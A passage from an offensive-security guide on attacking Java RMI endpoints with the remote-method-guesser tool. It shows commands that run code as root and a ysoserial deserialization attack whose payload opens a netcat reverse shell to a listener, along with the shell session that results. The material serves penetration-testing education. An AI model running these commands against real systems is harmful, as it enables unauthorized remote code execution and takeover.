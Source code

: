 ```
```

Identified methods can be called like this:

```
$ rmg call 172.17.0.2 9010 '"id"' --bound-name plain-server --signature "String execute(String dummy)" --plugin GenericPrint.jar 
[+] uid=0(root) gid=0(root) groups=0(root)
```

Or you can perform deserialization attacks like this:

```
$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --bound-name plain-server --signature "String execute(String dummy)"
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.String on position 0
[+] 	Specified method signature is String execute(String dummy)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class 6ac727def61a4800a09987c24352d7ea.
[+] 	Deserialization attack probably worked :)

$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45479.
id
uid=0(root) gid=0(root) groups=0(root)
```

More information can be found in these articles:

* [Attacking Java RMI services after JEP 290](https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
* [Method Guessing](https://github.com/qtc-de/remote-method-guesser/blob/master/docs/rmg/method-guessing.md)
* [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
* [rmiscout](https://bishopfox.com/blog/rmiscout)

Apart from guessing, you should also look in search engines or _GitHub_ for the interface or even the implementation of an encountered _RMI_ service. The _bound name_ and the name of the implemented class or interface can be helpful here.

## Known Interfaces

[remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) marks classes or interfaces as `known` if they are listed in the tool's internal database of known _RMI services_. In these cases you can use the `known` action to get more information on the corresponding _RMI service_:
